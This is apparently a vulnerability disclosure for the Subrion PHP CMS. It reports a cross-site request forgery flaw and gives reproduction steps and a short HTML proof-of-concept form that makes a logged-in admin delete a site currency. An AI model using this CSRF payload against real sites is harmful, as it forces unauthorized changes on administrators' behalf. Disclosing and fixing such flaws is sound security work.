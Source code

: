 # Description
`Subrion` is PHP based CMS. It is one of the best CMS I ever used.The Project is vulnerable to CSRF attack which allows a user to force admin to delete the "Currencies" added in the site.

# Steps To Reproduce & POC
1:Download and Setup `Subrion` [Subrion-Link](https://github.com/intelliants/subrion/)   
2:Extract the source code to an Apache server with MYSQL   
3:As Default 3 Currencies are added in the Site you can view it by navigaing to http://localhost/huntr/subrion/panel/currencies/   
4:Save the below code as HTML and Click Submit . The Currencie will be deleted    
```
html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://localhost/subrion/panel/currencies/delete/EUR/">
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```
# Impact
This can allow a user to force admin to remove "Currencies" from the website
